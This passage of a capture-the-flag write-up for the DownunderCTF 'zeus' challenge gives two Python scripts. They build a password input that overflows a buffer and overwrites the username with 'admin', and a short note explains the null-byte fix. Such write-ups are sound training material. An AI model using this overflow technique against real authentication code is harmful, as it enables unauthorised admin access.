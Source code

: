 ```python
import sys
# admin password: 20-byte UTF-8 sequence for '🇦🇩🇲🇮🇳'
admin_pass = b"\xF0\x9F\x87\xA6\xF0\x9F\x87\xA9\xF0\x9F\x87\xB2\xF0\x9F\x87\xAE\xF0\x9F\x87\xB3"

# create the payload:
#   - 20 bytes: admin password
#   - 12 bytes: Padding ('A' * 12)
#   - 5 bytes: "admin"
password_payload = admin_pass + b"A" * 12 + b"admin"

# Send the exploit:
#   - Username: "guest" (any non-admin username)
#   - Password: Constructed payload
sys.stdout.buffer.write(b"guest\n") # send username
sys.stdout.buffer.write(password_payload + b"\n") # fill admin password and overwrite usename with "admin"

```

![Screenshot from 2025-07-21 15-18-10.png](DownunderCTF%20zeus%20write-up%20237082343b3d809d9ee0cc78d6974cb9/Screenshot_from_2025-07-21_15-18-10.png)

it works but the password is incorrect because the password now  is `🇦🇩🇲🇮🇳AAAAAAA...`  we need to end `password` buffer after the right password is filled. In `C` the char buffer ends with a `null` byte `\0` which is equivalent to `\x00` in hex. Hence, our exploit will become `admin_password + '\x00' + 'A'*11 + 'admin`

```python
import sys
# admin password: 20-byte UTF-8 sequence for '🇦🇩🇲🇮🇳'
admin_pass = b"\xF0\x9F\x87\xA6\xF0\x9F\x87\xA9\xF0\x9F\x87\xB2\xF0\x9F\x87\xAE\xF0\x9F\x87\xB3"

# create the payload:
#   - 20 bytes: admin password
#   - 12 bytes: Padding ('A' * 12)
#   - 5 bytes: "admin"
password_payload = admin_pass + b"\x00" + b"A" * 11 + b"admin"

# Send the exploit:
#   - Username: "guest" (any non-admin username)
#   - Password: Constructed payload
sys.stdout.buffer.write(b"guest\n") # send username
sys.stdout.buffer.write(password_payload + b"\n") # fill admin password and overwrite usename with "admin"

```
